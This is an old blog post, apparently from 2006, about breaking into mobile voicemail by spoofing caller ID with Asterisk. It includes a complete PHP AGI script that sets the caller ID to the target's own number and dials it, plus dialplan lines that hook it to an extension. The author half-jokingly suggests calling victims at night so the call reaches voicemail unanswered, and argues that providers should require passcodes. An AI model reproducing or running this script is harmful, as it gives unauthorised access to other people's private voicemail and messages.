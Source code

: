 ```yaml
--- 
wordpress_id: 1352
layout: post
title: Hacking mobile voicemail with Asterisk and caller ID spoofing
tags: technology, technology
wordpress_url: http://www.nata2.org/2006/09/24/hacking-voicemail-with-asterisk-and-caller-id-spoofing/
---
```

So there has always had a problem with US mobile providers having their voicemail be susceptible to being compromised by calling with a spoofed caller id. Apparently most providers caller id apps just checks the referring callerid - and doesn't force the voicemail user to pick a passcode; so it allows someone to trick the voicemail app into believing they are calling from a trusted number. This has been covered all <a href="http://www.toast442.org/C662738431/E680925937/index.html">over the</a> <a href="http://www.i-hacked.com/content/view/124/47">Internet</a> and was in the <a href="http://www.macdevcenter.com/pub/a/mac/2005/01/01/paris.html">spotlight</a> awhile back when it was alleged that this was how <a href="http://blog.tmcnet.com/blog/tom-keating/mobile-phones/paris-hilton-hacks-voicemail-using-asterisk.asp">Paris Hilton's mobile phone was hacked</a>. It is a pretty big problem and is probably really easy to fix. So, just to make things funnier - I decided that I would release a snippit of code that would make it easier to execute this hack.
<blockquote>#!/asterisk/php/bin/php -q &lt;? set_time_limit(30); //make sure the php script doesn't time out require('phpagi.php'); // include the phpagi class error_reporting(E_ALL); // limit the errors $agi = new AGI(); // instantiate the AGI class $agi-&gt;answer(); // answer the phone sleep(2); // wait a sec or two $agi-&gt;stream_file('enter_spoof'); // speak a wav file that says "enter the number" $result = $agi-&gt;get_data('beep', 3000, 10); // beep and grab the 10 numbers $agi-&gt;verbose("Number to call:".$result['result']); // throw info so you know whats up $agi-&gt;set_callerid($result['result']); // set caller id to the number you are calling $agi-&gt;exec("Dial IAX2/iax-provider/1".$result['result']); // call the number ?&gt;</blockquote>
You can add this to your /var/lib/asterisk/agi-bin dir and then specify the extension you want to use to dial and execute the php/agi script
<blockquote>exten =&gt; 666,1,Answer exten =&gt; 666,2,AGI(tmobilevoicemail_spoof.php) exten =&gt; 666,3,Hangup</blockquote>
Then when you dial 666 it executes the script. It will ask you what number to dial then dial it after setting the caller id to the same number. It will dial the number and then ring the phone. If the phone is on and the target number is answered - it won't work; however if the person doesn't answer you will be placed in the targets voicemail as a trusted user. So, I would suggest calling people in the middle of the night or when you know they will not answer. Wait.. I actually wouldn't suggest calling anyone but yourself. It seems to me that the only viable solution that will be compatible with all phones, people and providers is to force the users to choose passcode to your voicemail. This is - of course - a proof of concept. You should not actually hack peoples voicemails. That is not very nice. We are into being nice. Also, check out my <a href="http://www.nata2.org/2006/02/14/caller-id-spoofing-with-php-and-asterisk/">previous entry on caller id spoofing</a>.
